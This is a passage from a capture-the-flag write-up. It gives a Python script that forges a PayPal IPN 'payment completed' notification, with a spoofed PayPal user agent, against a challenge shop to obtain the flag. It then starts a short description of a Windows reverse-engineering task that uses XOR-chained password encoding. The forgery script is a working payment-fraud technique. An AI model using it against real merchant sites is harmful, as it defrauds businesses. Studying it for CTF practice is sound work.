 ![Zrzut-ekranu-2017-11-10-o-21.14.26](content/images/2017/11/Zrzut-ekranu-2017-11-10-o-21.14.26.webp)

So we need to send a forged successful payment request and after that check the transaction result. We can do that with a simple Python script
[code]
    import requests
    import re


    url1 = "https://paypal.pwning2017.p4.team/"

    w = requests.get(url1).text
    print w
    url2 = re.search('input type="hidden" name="notify_url" value="([^"]+)"', w)
    print url2.group(1)

    data = {'payment_gross':'12300.00', 'mc_currency':'USD','mc_gross':'12300.00','payer_email':'t%40p.pl','txn_type':'web_accept','payment_status':'Completed'}
    headers = {'User-agent': 'PayPal IPN ( https://www.paypal.com/ipn )'}
    w2 = requests.post(url2.group(1), data=data, headers=headers)

    url3 = re.search('input type="hidden" name="return" value="([^"]+)"', w)
    print url3.group(1)

    w3 = requests.get(url3.group(1))

    print w3.headers
    print w3.text
[/code]

There are some checks in the script (like checking the User agent) but we can easly beat those. Running the script will give us the flag: `pwn{paypal_integrated_in_a_very_shitty_way_lawl}`.

# Reverse It (re 50)

This was a simple Windows RE. When run it shows nice ASCII art which is also used for displaing 'No', 'Yes' message so you can't fined them (easily) in the resources.

The algo itself is simple, it xores first char, with the next one and so on. You can get it from the code and it's also confiremd by the unencrypted last char for the encrypted password found in the binary.